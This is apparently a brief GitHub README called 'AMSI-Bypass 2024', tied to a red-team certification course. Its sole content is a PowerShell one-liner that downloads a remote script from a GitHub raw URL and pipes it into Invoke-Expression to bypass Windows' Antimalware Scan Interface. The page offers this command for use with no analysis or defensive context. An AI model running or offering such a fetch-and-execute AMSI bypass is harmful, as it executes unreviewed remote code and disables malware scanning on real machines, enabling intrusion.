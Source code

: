 # AMSI-Bypass 2024

Bypass AMSI from CRTE Journey
![](psby.pn)
## Command
```powershell
Invoke-Webrequest "https://raw.githubusercontent.com/0xBugatti/AMSI-Bypass/refs/heads/main/MS-AMUpdate.ps1"|IEX
```

